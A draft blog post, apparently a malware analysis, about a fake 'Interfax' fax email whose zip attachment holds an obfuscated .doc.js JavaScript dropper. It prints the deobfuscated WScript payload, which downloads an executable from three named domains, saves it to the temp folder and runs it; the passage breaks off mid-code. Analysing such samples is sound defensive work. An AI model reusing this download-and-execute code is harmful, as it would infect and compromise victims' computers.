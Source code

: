 ```yaml
---
title:  The raise of Javascript-droppers
date:   2015-11-29T13:13:13+01:00
draft: true
toc: false
images:
tags:
  - untagged
---
```


![interfaxgraphic](/img/behaviour.jpg)
A few weeks ago, i got the following email:

{{< highlight text >}}
New incoming fax document.

Scanned fax document is attached to this email.

Sender:            Lonnie Sloan
File name:         scan-00273548.doc
Scan duration:     48 seconds
Scanned:           Thu, 29 Oct 2015 16:04:40 +0300
Filesize:          186 Kb
Resolution:        600 DPI
Pages scanned:     10

Thanks for using Interfax service!
{{< / highlight >}}

First I've thought thats just spam as usual. But this time it should be a 
big malware campaign. Let us check out the attachment *scan-00273548.zip*.
If we unpack the zip-archive we will get a .doc.js file.. nice try. 

![sourcecode of .doc.js file](/img/img-2015-11-29-174834.png)

Ok thats messy. I've found a simple regex for deobfuscating it: *%s/; };/;
};\r/g*. Now we have one function per line and can watch over it without
headache. Seems like it's some simple arithmetic. They have in every function a
string and just return the string for adding the string with another string.
And the last function is executing the constructed string. In this sample this
payload lies in the *mzvc*-variable:

{{< highlight JavaScript >}}
var b = "hourlywhy.com yoakumdentalcare.com ncdivers.com".split(" "); 
var ws = WScript.CreateObject("WScript.Shell"); 
var fn = ws.ExpandEnvironmentStrings("%TEMP%")+String.fromCharCode(92)+"377492"; 
var xo = WScript.CreateObject("MSXML2.XMLHTTP"); 
var xa = WScript.CreateObject("ADODB.Stream"); 
var ld = 0; 
for (var n=1; n<=3; n++) { 
  for (var i=ld; i<b.length; i++) { 
    var dn = 0; 
    try { 
      xo.open("GET","http://"+b[i]+"/counter/?id="+str+"&rnd=167506"+n, false); 
      xo.send(); 
      if (xo.status == 200) { 
        xa.open(); 
        xa.type = 1; 
        xa.write(xo.responseBody); 
        if (xa.size > 1000) { 
          dn = 1; 
          xa.position = 0; 
          xa.saveToFile(fn+n+".exe",2); 
          try {  ws.Run(fn+n+".exe",1,0); } 